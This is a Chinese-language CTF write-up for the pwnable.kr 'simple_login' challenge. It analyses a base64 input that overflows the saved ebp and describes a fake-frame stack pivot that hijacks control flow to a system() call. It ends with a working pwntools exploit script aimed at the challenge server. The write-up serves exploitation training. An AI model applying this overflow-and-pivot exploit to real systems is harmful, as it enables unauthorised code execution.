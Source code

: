 ```yaml
---
title: pwnable.kr->Simple Login
categories: 
- pwnable.kr
---
```

# pwnable.kr->simple_login

## 前言

这个题目是从apple store那里看p4nda学长的wp来的，那道题最后用到了这个题的技巧，因此我也做了一下这个来加深记忆

## 程序逻辑

F5之后发现程序的逻辑比较简单，有一个bss段的全局变量input，输入限制长度为30，且根据函数名可以看到输入的数据应当是base64编码之后的结果，之后会先进行一次base64解码，判断解码长度不大于12，在进入auth函数把输入的解码结果memcpy到v4，这里是漏洞的触发点，v4地址为ebp-8，但是输入最长可以是12，因此可以覆盖到ebp，但也只能覆盖ebp。程序里有system调用处，可以在Gdb里直接b*correct找到其地址

![main](./1.jpg)

![auth](./2.jpg)

![system](./3.jpg)

## 漏洞利用

这里一个知识点比较关键，我们假设调用函数为A，被调函数为B，则B函数的ebp的值实际上是A函数ebp的地址，因此我们覆盖B函数的ebp时填入一块假的内存块的地址，这个地址的值模拟ebp和返回地址及参数。当被调函数返回的时候ebp被Pop出来作为原函数的ebp地址，最终实现eip劫持

## exp.py

```py
#coding=utf-8
from pwn import *
import base64
context.update(arch='i386',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 0
if debug:
    p = process('./login')
    #gdb.attach(p,'b* 0x804929c')
else:
    p = remote('pwnable.kr',9003)

p.recvuntil('Authenticate : ')
payload = ''
shell_addr = 0x8049284
input_addr = 0x811EB40
payload = flat('aaaa',shell_addr,input_addr)
payload = base64.b64encode(payload)
p.sendline(payload)
p.recvline()
p.interactive()
```
